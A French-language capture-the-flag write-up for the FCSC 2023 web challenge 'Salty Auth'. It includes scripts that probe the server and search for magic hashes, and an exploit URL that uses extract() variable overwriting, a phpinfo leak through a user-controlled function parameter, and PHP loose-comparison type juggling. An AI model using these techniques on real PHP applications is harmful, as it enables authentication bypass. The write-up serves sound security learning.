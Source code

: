 ```yaml
---
title: FCSC 2023 - Salty Auth
date: 2023-05-06
summary: Type Juggling et éxécution de code avec Extract
author: Nu1t
description: Writeup
tags: ["web"]
categories: ["writeup"]
resources:
  - name: "featured-image"
    src: "featured-image.png"
---
```


## Enonce

![](./enonce.png)

Le lien nous redirige directement ici:
 
![](./chall.png)

On va devoir vérifier les 2 conditions afin de pouvoir afficher le flag.

## Conditions

{{< admonition type=tip title="Résolution" open=true >}}
Nous devons:
- Trouver la longueur du mot de passe
- Générer une collision entre **fnv164(password) == fn16v4(hostname+salt)**
{{< /admonition >}}

## Longueur du password

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

#$salt = bin2hex(random_bytes(12));  # 24 chars minimum pour secret

for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

Bien, toutefois le `salt` inconnu est bien embêtant ...
On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit:

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Leak du hostname via phpinfo() ?

Le principal souci pour vérifier la 2nde condition est que **nous ne connaissons ni hostname, ni salt**.
Nous allons trouver `hostname`, vous verrez l'utilité dans la partie suivante.

En me repenchant dessus j'ai trouvé une vulnérabilité: on peut appeler une certaine fonction `log_attack` lors de l'**exit()**:

```
log_attack=phpinfo
//le serveur éxécute: exit($log_attack)
```

![](./log_attack.png)

Et récupérer le hostname:

![](./hostname.png)

## Réinitialisation du salt via extract()

Une fonction saute au yeux dans ce code, à quoi sert-elle?

```php
$salt = bin2hex(random_bytes(12));

extract($GET);

$secret = gethostname().$salt;
```

Ici réside ce qui nous permettra d'outrepasser la 2nde condition.
On trouve rapidement quelques ressources sur extract:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/

`PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables.
`

Ici nous allons par la **register global** $SERVER.
En échouant la vérification nous allons pouvoir écraser le variable `salt`.

Grâce à **extract** on peut:

- préciser notre password
- **écraser le salt** afin de contrôler la loose comparison.

![](./solve.png)

{{< admonition type=tip title="Loose Comparison" open=true >}}
0e1234 == 0e4321 == 0
{{< /admonition >}}

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de trouver un password de 36 caractères pour forcer une [Loose comparison](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}
?>
```

![](./wrong.png)

Résumons:

```php
hostname = "9be4a60f645f";

password = "9be4a60f645fa74b424f8617e4d9fccfd023";
password2 = "9be4a60f645f"."b39ea06afe7bc4f917472748";

/*
https://salty-authentication.france-cybersecurity-challenge.fr/?password=<password>
&log_attack=extract($_SERVER);&salt="b39ea06afe7bc4f917472748"
*/

$salt = "????????????????????????";
//extract($GET)
$salt = "b39ea06afe7bc4f917472748";

//1ère condition
$secret = "9be4a60f645f"."b39ea06afe7bc4f917472748" //===$password2
//password != password2


//2nde condition
hash('fnv164',$password) === 0e58654062616816 == 0
hash('fnv164',$secret) === hash('fnv164',$password2) == 00e9125834043228 == 0
```

Tada!!

![](./flag.png)
